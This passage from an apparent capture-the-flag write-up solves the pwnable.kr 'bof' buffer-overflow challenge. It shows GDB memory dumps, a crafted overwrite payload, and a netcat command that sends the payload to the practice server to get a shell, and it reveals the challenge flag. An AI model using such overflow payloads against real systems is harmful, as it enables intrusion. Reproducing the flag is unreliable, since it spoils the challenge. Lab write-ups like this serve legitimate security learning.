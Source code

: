 + In another shell use `python -c 'print("!"*4*13)'` to generate the input.
+ Rerun the program: `(gdb) r`
+ Paste the generated input and wait for the breakpoint to kick in.
+ Inspect memory: `(gdb) x/16x overflowme`

```
(gdb) x/16x overflowme
0xffffce9c:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffceac:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffcebc:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffcecc:	0x21212121	0xdeadbe00	0xffffcf94	0xffffcf9c
```

As expected, the null terminator of the string overflowed and was written over the last byte of the key _(little endian system)_. Knowing this, we can craft a payload that will write the correct values onto that bytes and as such make the left side of the comparison equal to the expected right one.


+ `(gdb) run <<< $(echo -e $(python -c "print('!'*4*13)")\\xbe\\xba\\xfe\\xca)`
+ `(gdb) x/16x overflowme`

```
(gdb) x/16x overflowme
0xffffce9c:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffceac:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffcebc:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffcecc:	0x21212121	0xcafebabe	0xffffcf00	0xffffcf9c
```

Et voilà! The comparison will now succeed. Let's quit GDB and run the same payload over netcat - running it locally would give us a shell on our system since the program will spawn `/bin/sh`.

+ `echo -e $(python -c "print('!'*4*13)")\\xbe\\xba\\xfe\\xca | nc pwnable.kr 9000`{: .spoiler}

It seems that this does nothing, shell commands won't give any output... That's because the spawned process terminates immediately since STDIN does not get tied to it. A simple - yet obscure - workaround is using `cat` to keep the pipe open:

+ `(echo -e $(python -c "print('!'*4*13)")\\xbe\\xba\\xfe\\xca; cat -) | nc pwnable.kr 9000`{: .spoiler}

It won't look like it but you are now effectively interacting with a shell:

```sh
pwd         # Check the working directory
ls -l       # Look for the flag
cat flag    # Grab it!
```

The flag is: _daddy, I just pwned a buFFer :)_{: .spoiler}

---

# 4. flag

We're only given a seemingly ordinary binary to play with:

```bash
> file ./flag
flag: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header

> chmod +x flag && ./flag
I will malloc() and strcpy the flag there. take it.
```
